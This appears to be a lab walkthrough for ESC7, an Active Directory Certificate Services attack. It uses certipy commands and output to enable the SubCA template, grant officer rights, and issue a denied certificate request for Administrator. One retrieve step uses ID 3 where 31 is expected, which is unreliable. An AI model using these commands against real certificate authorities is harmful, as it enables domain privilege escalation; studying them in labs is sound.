 ```yaml
---
description: Vulnerable Certificate Authority Access Control
---
```


# ESC7

A certificate authority holds a distinct set of permissions crucial for securing various CA functions.&#x20;

* **CA Administrator (ManageCA right):** This role allows managing the CA's settings, including using the `ICertAdminD2::SetConfigEntry` method to adjust important configurations, like whether the CA accepts request attributes for Subject Alternative Names (SANs).
* **Certificate Manager (ManageCertificates right):** Also called a CA officer, this role focuses on managing issued certificates.

### <mark style="color:yellow;">Abuse from Linux - ManageCA rights</mark>

```sh
certipy find -u 'blwasp@lab.local' -p 'Password123!' -stdout -vulnerable

    [!] Vulnerabilities                        
      ESC7                              : 'LAB.LOCAL\\Black Wasp' has dangerous permissions
```

{% hint style="info" %}
Enabling `EDITF_ATTRIBUTESUBJECTALTNAME2` flag to perform `ESC6` attack,  will not have any effect until the CA service (CertSvc) is restarted.
{% endhint %}

The `ManageCertificates` role allows us to approve pending certificate requests, which can be done with the ManageCA rights. Combining it with `ManageCertificates` roles, we can issue certificate requests that have failed.

`SubCA` template is also enabled by default. This template is vulnerable to `ESC1` but only permits `Domain Admins` and `Enterprise Admins` to enroll.&#x20;

```sh
# Enable SubCA 
certipy ca -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -enable-template 'SubCA'
```

{% hint style="info" %}
It is important to note that when executing certipy, if the output does not display the `ManageCertificates` rights, it indicates that the server's rights are set by default.
{% endhint %}

With ManageCA rights we assign ManageCertificate rights to any account.

```sh
certipy ca -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -add-officer BlWasp
```

With the `SubCA` template enabled and with `ManageCertificates` rights, we can request a certificate by adding an alternative `SAN` and selecting the `SubCA` template.

```sh
mczen@htb[/htb]$ certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template SubCA -upn Administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 31
Would you like to save the private key? (y/N) y
[*] Saved private key to 31.key
[-] Failed to request certificate
```

Error because we are not member of Domain Admins or Enterprise Admins. Save the request ID 31 and yes to save the key. With ManageCA and ManagerCertificates rights we issue the failed certificate request using certipy ca with -issue-request 31

```sh
mczen@htb[/htb]$ certipy ca -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -issue-request 31
```

Retrieve the certificate with ID

```sh
certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -retrieve 3
```

### <mark style="color:yellow;">Abuse from Linux - ManageCertificates rights</mark>

Request a certificate&#x20;

```sh
mczen@htb[/htb]$ certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template ESC7_1 -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[!] Certificate request is pending approval
[*] Request ID is 59
Would you like to save the private key? (y/N) y
[*] Saved private key to 59.key
[-] Failed to request certificate
```

It says the certificate request is pending approval, showing request ID 59. Save private key again and approve the request.&#x20;

```sh
mczen@htb[/htb]$ certipy ca -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -issue-request 59                                             
Certipy v4.8.2 - by Oliver Lyak (ly4k)                                                                                                            
                                                                                                                                                  
[*] Successfully issued certificate
```

Finally retrieve the approved request

```sh
certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -retrieve 59             
```
